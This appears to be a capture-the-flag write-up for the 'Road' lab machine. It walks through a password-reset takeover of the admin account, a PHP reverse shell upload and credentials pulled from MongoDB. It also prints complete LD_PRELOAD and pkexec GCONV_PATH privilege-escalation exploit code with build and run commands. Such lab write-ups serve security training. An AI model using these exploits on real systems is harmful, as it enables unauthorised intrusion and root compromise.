road
Road
Inspired by a real-world pentesting engagement
Enumeration
Rustscan & Nmap


Two Services Running are SSH & Webserver.
Website Enumeration

We have a sky couriers website. I searched around and found mostly normal things.
However, when we click on the “Management Central”, we are taken to a login page with following URL.
http://10.10.93.148/v2/admin/login.html

Next, I created a normal user account by clicking on REGISTER.

I Entered the Following Dummy Details & Then Clicked on REGISTER
Email Address: bob@tryhackme.com
Password: bob123
Confirm Password: bob123
10 Digit Mobile No: 998877665
We get a message “your account has been created” on the top left of the page. However, the login page reloads within 1 second.
Next, I logged in to the freshly created user by entering the Email & Password as above & clicking on SIGN IN.

I am taken to my user's Dashboard.
Intresting Find

In the Top Right Corner click on the Arrow after username & click on Profile. It will open the Profile configuration page.
Scroll to the bottom of the page.

As we can see, the EDIT PROFILE button will update the changes made & the intresting find is the option to set a Profile Image.
We could try to upload php reverse shells if allowed.
However, the message below it reads that currently only the admin can use this feature.
Also we found the Admin's Email Address Or Username (Since Both are same -→ We know this by creating my user)
Admin's Email Address: admin@sky.thm
Reseting Admin's Password
In the previous step, I found out the admin's Email address.
Inside bob's account scroll up & click on “ResetUser” present on the left of the page.

We get the following page.

As we can see, the Username part is fixed. I need to send this reset request using Burpsuite to modify it. I entered New Password & Confirm Password as 123456 & click on Submit once Burpsuite was setup.

We can see the burpsuite proxy captured the request and the parameter uname has the username value. I change the value from bob@tryhackme.com to Admin's username admin@sky.thm & Forward the Request.
I got the following message that Password Changed

Foothold
Now, we can login as admin using the following credentials.
Username: admin@sky.thm
Password: 123456
I closed burpsuite and logged out of my dummy user. Then logged in as admin using the above credentials.
I successfully Logged in.

Next, I opend the Profile page clicking the dropdown as earlier to get to the profile picture upload page.
The feature is enabled now as we are logged in as Admin.

I clicked on Browse and uploaded a PHP Reverse Shell.
I started Netcat Listener on my Local machine.
Then I Clicked On EDIT PROFILE to upload the file.
Note: Once I finish the above steps, i go back to profile configuration page. However, the upload was successful. (Thus, there are no filetype filters in place)
Important: The next big thing is to find my uploaded file to initiate the reverse shell. I tried directory enumeration on URL : {http://10.10.93.148/v2/} but didn't find any intresting result.
I opened the Profile configuration page's source code & I finally found the directory as a comment.

After scrolling down, at around line 678 i found the comment mentioning the upload directory.
/v2/profileimages/
Lets open it.

When i Opened the directory, it opened but we can't view its contents and get the message that Directory Listing is Disabled.
However, i can still access my file if i know the name which i do !! (Name of the File I uploaded ----> php-reverse-shell.php)
I will use the following URL to open my file directly.
http://10.10.93.148/v2/profileimages/php-reverse-shell.php
After Entering the above URL in the browser and hitting Enter, we get the Reverse Shell connection is our Listener.

Privilege Escalation
I uploaded the Linpeas.sh to check for privilege Escalation.
There are 3 Distinct Methods of Privilege Escation.
Method - 1
Linpeas output snip below tells that both mysql (3306) & mongodb (27017) are running in the system listening to localhost.

Netstat is not intalled on the system. However, we can use the ss (Socket Status) utility to get idea about connections. (Manually)
ss -lt

I tried logging in to mysql with default credentials but it didn't work. However, when i tried to open MongoDB shell, it worked.
Commands:
mongo 27017
show dbs
use backup
show collections
db.user.find()

As we can see, we have found the webdeveloper user's password. Lets SSH to the machine using the following credentials.
Credentials Found:
Username: webdeveloper
Password: BahamasChapp123!@#
After SSH Login, we get the user flag in the user's home and then check for further escalation options. As highlighted below LD_PRELOAD can help us in running a bash as privileged user.

I will create a preload.c file with the following contents:
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}

Then, i compiled it using the following command.
gcc -fPIC -shared -nostartfiles -o preload.so preload.c

Now, our library file is ready. We will use the sudo in the following way to call the library file & gain root shell.
sudo LD_PRELOAD=/home/webdeveloper/preload.so /usr/bin/sky_backup_utility

Method - 2
Use the MongoDB to gain SSH credentials as before.
Notice that the user webdeveloper is part of sudo group.
A vulnerability in pkexec can be exploited here.
(pkexec is used to run GUI tools as another authorized user (Also root) )
Open 2 SSH Connections to the Target Machine:

On the First Session: Run echo $$ & Note the PID
On the Second Session: Run pkttyagent -p <PID> [Enter the PID Received in First Session]
On the First Session: Run pkexec /bin/bash
On the Second Session: We will be prompted for webdeveloper's password. Enter it there & we will get a root bash shell in First Session.

Method - 3

The CVE mentioned by linpeas uses the same vulnerability exploited in Method - 2.
However, this escalation is the most powerful one as it doesn't requires an user in sudo group. This exploit can be run as www-data
We opend the CVE in Exploit DB.
The document has 3 parts. I made 3 files with the following contents.
1. Makefile
all:
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
clean:
rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
2. exploit.c
#include <stdio.h>
#include <stdlib.h>
#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"
int main()
{
char *envp[] = {
DIR,
"PATH=GCONV_PATH=.",
"SHELL=ryaagard",
"CHARSET=ryaagard",
NULL
};
char *argv[] = { NULL };
system("mkdir GCONV_PATH=.");
system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
system("mkdir " DIR);
system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");
system("cp " EVILSO ".so " DIR);
execve(BIN, argv, envp);
return 0;
}
3. evil.so.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void gconv() {}
void gconv_init() {
setuid(0);
setgid(0);
setgroups(0);
execve("/bin/sh", NULL, NULL);
}
Now, inside the target machine, i run the following commands.
make all
./exploit
Note: The make command works in Local Kali machine, however on the target machine it is not installed.
We have 2 options. We compile the exploit in Kali machine and send only the exploit.
Or
We manually run the commands of the Makefile as gcc is installed on the target.
On Target Machine:
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
